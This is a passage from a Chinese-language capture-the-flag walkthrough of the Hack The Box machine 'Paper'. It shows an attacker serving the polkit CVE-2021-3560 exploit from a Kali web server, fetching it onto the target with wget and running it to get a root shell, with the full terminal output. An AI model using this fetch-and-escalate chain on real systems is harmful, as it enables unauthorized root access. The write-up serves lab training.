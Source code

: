 ```
CVE-2021-3560.py  100%[=====================================================>]   2.38K  --.-KB/s    in 0s
2022-02-07 17:12:37 (7.27 MB/s) - ‘CVE-2021-3560.py’ saved [2434/2434]
```

在 Kali 上启动一个网络服务器，这样我们就可以把文件拉过来:

```
┌──(root💀kali)-[~/htb/paper]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

切换到盒子，将漏洞拉过来:

```
[dwight@paper ~]$ wget http://10.10.14.12/CVE-2021-3560.py
--2022-02-07 12:15:21--  http://10.10.14.12/CVE-2021-3560.py
Connecting to 10.10.14.12:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2434 (2.4K) [text/x-python]
Saving to: ‘CVE-2021-3560.py’
CVE-2021-3560.py   100%[======>]   2.38K  --.-KB/s    in 0s      
2022-02-07 12:15:21 (138 MB/s) - ‘CVE-2021-3560.py’ saved [2434/2434]
```

# 根标志

现在运行漏洞攻击成为超级用户:

```
[dwight@paper ~]$ python3 CVE-2021-3560.py 
**************
Exploit: Privilege escalation with polkit - CVE-2021-3560
Exploit code written by Ahmad Almorabea @almorabea
Original exploit author: Kevin Backhouse 
For more details check this out: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/
**************
[+] Starting the Exploit 
id: ‘ahmed’: no such user
id: ‘ahmed’: no such user
id: ‘ahmed’: no such user
[+] User Created with the name of ahmed
[+] Timed out at: 0.008090460803153968
/org/freedesktop/Accounts/User1005
[+] Timed out at: 0.008392264349843527
[+] Exploit Completed, Your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root 
We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:
    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.
bash: cannot set terminal process group (4354): Inappropriate ioctl for device
bash: no job control in this shell
[root@paper dwight]#
```
